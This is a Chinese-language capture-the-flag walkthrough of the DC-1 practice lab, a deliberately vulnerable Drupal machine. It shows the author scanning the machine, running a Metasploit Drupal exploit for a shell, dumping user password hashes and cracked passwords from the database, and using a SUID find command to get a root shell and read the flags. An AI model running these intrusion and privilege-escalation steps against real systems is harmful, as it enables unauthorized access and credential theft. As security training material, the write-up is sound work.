# DC1靶场实战

> 将靶场网络模式改为桥接模式

- 使用御剑扫描端口
- 

- 这里可以确定靶场ip为`192.168.157.152`开放了`22`和`80`端口
- 访问一下80端口
- 

- 这里发现需要`登录`,我们尝试爆破web目录看看



- 这里扫到`/user/`和`/robot.txt`两个目录,访问来看一下
- 

- 注册一个账户试试,发现不行,尝试爆破也爆破不出来

- 使用`msfconsole`

- ```cmd
  msf6 > search drupal
  ```

  



- ```cmd
  #这里测试发现只有2可以
  msf6 > use 2
  msf6 > set rhost 192.168.157.152
  msf6 > run
  
  #如果成功在,输入
  meterpreter > shell
  ```

  



```cmd
//看看flag1.txt有什么信息
cat flag1.txt
```


- 大致意思是让我去找配置文件看看,一个一个的翻,最终在`sites`下的`default`下找到部分php文件,看看





```cmd
#为了方便查看数据,使用工具
python -c "import pty;pty.spawn('/bin/bash')"
```


```cmd
#连接数据库
mysql -u dbuser -p

+--------------------+
| Database           |
+--------------------+
| information_schema |
| drupaldb           |
+--------------------+

+-----------------------------+
| Tables_in_drupaldb          |
+-----------------------------+
| actions                     |
| authmap                     |
| batch                       |
| block                       |
| block_custom                |
| block_node_type             |
| block_role                  |
| blocked_ips                 |
| cache                       |
| cache_block                 |
| cache_bootstrap             |
| cache_field                 |
| cache_filter                |
| cache_form                  |
| cache_image                 |
| cache_menu                  |
| cache_page                  |
| cache_path                  |
| cache_update                |
| cache_views                 |
| cache_views_data            |
| comment                     |
| ctools_css_cache            |
| ctools_object_cache         |
| date_format_locale          |
| date_format_type            |
| date_formats                |
| field_config                |
| field_config_instance       |
| field_data_body             |
| field_data_comment_body     |
| field_data_field_image      |
| field_data_field_tags       |
| field_revision_body         |
| field_revision_comment_body |
| field_revision_field_image  |
| field_revision_field_tags   |
| file_managed                |
| file_usage                  |
| filter                      |
| filter_format               |
| flood                       |
| history                     |
| image_effects               |
| image_styles                |
| menu_custom                 |
| menu_links                  |
| menu_router                 |
| node                        |
| node_access                 |
| node_comment_statistics     |
| node_revision               |
| node_type                   |
| queue                       |
| rdf_mapping                 |
| registry                    |
| registry_file               |
| role                        |
| role_permission             |
| search_dataset              |
| search_index                |
| search_node_links           |
| search_total                |
| semaphore                   |
| sequences                   |
| sessions                    |
| shortcut_set                |
| shortcut_set_users          |
| system                      |
| taxonomy_index              |
| taxonomy_term_data          |
| taxonomy_term_hierarchy     |
| taxonomy_vocabulary         |
| url_alias                   |
| users                       |
| users_roles                 |
| variable                    |
| views_display               |
| views_view                  |
| watchdog                    |
+-----------------------------+

```

user表看起来太乱了,这是一个用户信息表的整理结果：

| UID  | Name       | Password                                                | Email             | Theme | Signature     | Signature Format | Created    | Access     | Login             | Status | Timezone            | Language | Picture | Init              | Data |
| ---- | ---------- | ------------------------------------------------------- | ----------------- | ----- | ------------- | ---------------- | ---------- | ---------- | ----------------- | ------ | ------------------- | -------- | ------- | ----------------- | ---- |
| 0    |            |                                                         |                   |       |               |                  |            | 0          | 0                 | 0      | NULL                | NULL     | 0       | NULL              | NULL |
| 1    | admin      | $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR | admin@example.com |       |               |                  | 1550581826 | 1550583852 | admin@example.com | 1      | Australia/Melbourne | NULL     | 0       | admin@example.com | b:0; |
| 2    | Fred       | $S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg | fred@example.org  |       | filtered_html |                  | 1550581952 | 1550582225 | fred@example.org  | 1      | Australia/Melbourne | NULL     | 0       | fred@example.org  | b:0; |
| 3    | 2493770457 | $S$DnZNZu4yy0/kIUleNpqOnpbU0M0vZcaJW/OF3tRogcHZzWdefmpt | 2493770457@qq.com |       | filtered_html |                  | 1726427544 | 0          | 2493770457@qq.com | 0      | Australia/Melbourne | NULL     | 0       | 2493770457@qq.com | NULL |

这是表格的整理信息，包含了用户 ID、名称、密码、邮箱等信息。




```cmd
//账号密码
admin 53cr3t
Fred MyPassword
```



```cmd
find flag1.txt -exec whoami /; //查看文件用户权限
find flag1.txt -exec '/bin/sh' /; //以创建者身份回弹shell
find / -name "*flag*"	//找到flag相关文件
```





```cmd
cat /home/flag4/flag4.txt
```




```cmd
cat /root/thefinalflag.txt
```

